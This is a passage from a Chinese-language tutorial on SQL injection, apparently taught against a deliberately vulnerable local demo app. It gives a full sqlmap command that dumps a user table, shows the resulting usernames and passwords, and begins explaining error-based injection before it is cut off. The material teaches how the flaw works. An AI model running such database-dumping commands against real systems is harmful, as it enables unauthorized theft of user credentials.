 第三步，查询 userdata 的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump



```

你看，用户密码信息一览无遗。当然，你也可以继续查看其他表的数据：

```
Database: common_mistakes



Table: userdata



[2 entries]



+----+-------+----------+



| id | name  | password |



+----+-------+----------+



| 1  | test1 | haha1    |



| 2  | test2 | haha2    |



+----+-------+----------+



```

在日志中可以看到，sqlmap 实现拖库的方式是，让 SQL 执行后的出错信息包含字段内容。注意看下错误日志的第二行，错误信息中包含 ID 为 2 的用户的密码字段的值“haha2”。这，就是报错注入的基本原理：

